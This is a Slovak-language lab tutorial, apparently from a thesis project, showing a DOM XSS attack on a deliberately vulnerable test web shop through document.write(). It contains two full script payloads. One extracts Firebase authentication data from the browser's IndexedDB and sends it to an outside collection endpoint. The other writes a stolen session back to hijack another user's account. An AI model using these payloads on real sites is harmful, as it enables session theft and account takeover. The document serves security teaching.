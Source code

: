 # Document objcet model cross site scripting (DOM XSS)

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- Predstavíme si DOM XSS na príklade vygenerovania exportu objednávky do novéhe onka prehliadača pomocou metódy document.write().
- Metóda document.write() prepisuje celú kostru stránky a generuje novú pomocou argumentu vloženého do metódy. Týmto spôsobom sa dajú jednoducho a automatizovane generovať nové stránky alebo upravovať už existujúce.
- Problém nastáva, keď sa do argumentu vloží vrátane rôznych bezpečnch značiek aj škodlivý kód. Škodlivý kód je priamo vložený do tela stránky.
- Ako môžeme vidieť v testovacom prostredí, tak obrazovka obsahuje vstup kam zapisujeme názov exportu našej objednávky a tlačidlo na vygenerovanie exportu.
- Ako prvé sa presunieme na podstránku produktov a vložíme ľubovoľné produkty do košíka.
- Keď máme košík naplnený produktami môžeme zmeniť alebo ponechať názov exportu a kliknúť na tlačidlo “Export”.
- Vygeneroval sa nám jednoduchý export objednávky v novom okne. Názov exportu je vpísaný ako nadpis nad jednotlivými položkami košíka. Hodnota zo vstupu je priamo vložená do 
  tela novej stránky, čím vzniká zraniteľnosť a priestor na vloženie škodlivého kódu.
- Zopakujme si proces generovania exportu ale teraz vložíme škodlivý kód do vstupu pre názov exportu.
- Vložme nasledovný úryvok kódu do inputu:
- ```
      <script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const getDataRequest = objectStore.getAll();

        getDataRequest.onsuccess = (event) => {

        const headers = new Headers();
        headers.append("Content-Type", "text/plain");

        const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: JSON.stringify(event.target.result),
        };

        // Doplnit endpoint vygenerovany sluzbou Pipedream
        fetch("pipedream-endpoint", options); 
        }
      };
      </script>
- Ukážkový kód sprístupní lokálnu databázu prehliadača (indexDB), ktorú autentifikačný servis FirebaseAuth využíva na uchovávanie dát o prihlásenom používateľovi. 
  Vytiahneme dáta z databázy a celý objekt odošleme na zadanú adresu vo funkcii fetch().
- V kóde sa nachádza komentár nad funkciou fetch(). Pomocou služby Pipedream musíme vygenerovať nový endpoint a jeho url adresu vložiť do funkcie. Na adrese https://pipedream.com/ si vytvorime
  novy projekt. Po vytvorení projketu vygenerujeme endpoint a v sekcii "trigger" skopírujeme url adresu a vložíme do hášho kódu. 
- Kód vložíme do vstupného poľa a vygenerujeme export objednávky.
- Po vygenerovaní exportu môžeme vidieť, že názov exportu je prázdny a spustil sa náš škodlivý kód. Na endpoint by nám mal prísť celý objekt s dátami.
- Odhlásime sa z aplikácie a opätovne sa prihlásisme pod iným účtom, buď existujúcim alebo si vytvoríme nový.
- Po prihlásení využijeme spomínanú zraniteľnosť znova a vložíme do lokálnej databázy dáta užívateľa, čím prelomíme autentifikáciu a prihlásime sa do iného účtu.
- Kód na vloženie používateľských dať vyzerá nasledovne:
     ```<script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const data = {
          fbase_key: "random-fbase-key",
          value: {
            uid: "RTejhfCWw1OAlHcoAj41Fy93ZJJ3",
            email: "test@gmail.com",
            emailVerified: false,
            isAnonymous: false,
            providerData: [
              {
                providerId: "password",
                uid: "test@gmail.com",
                displayName: null,
                email: "test@gmail.com",
                phoneNumber: null,
                photoURL: null,
              },
            ],
            stsTokenManager: {
              refreshToken: "random-refresh-token",
              accessToken: "random-access-token",
              expirationTime: 1712794096425,
            },
            createdAt: "1711383904315",
            lastLoginAt: "1711790596471",
            apiKey: "random-api-key",
            appName: "[DEFAULT]",
          },
        };

        objectStore.clear();

        const addDataRequest = objectStore.add(data);

        addDataRequest.onsuccess = (event) => alert("Success!");
      };
    </script>

- Objekt "data" v ukážke je len na demonštráciu ako taký objekt vyzerá. Nahradíme ho objektom, ktorý nám došiel na vytvorený ednpoint po vygenerovaní objednávky. 
  Objekt bude pravdepodobne treba preformátovať, takže názvy atribútov objektu musie byť bez úvodzoviek, tak ako tomu je v ukážkovom objekte.
- Kód vložíme znova do vstupu pre export a odošleme.
- Po obnovení stránky môžeme vidieť v hlavičke stránky, že sme prihlásený pod iným účtom.
- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/dom-xss-write.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/dom-xss-write.mp4)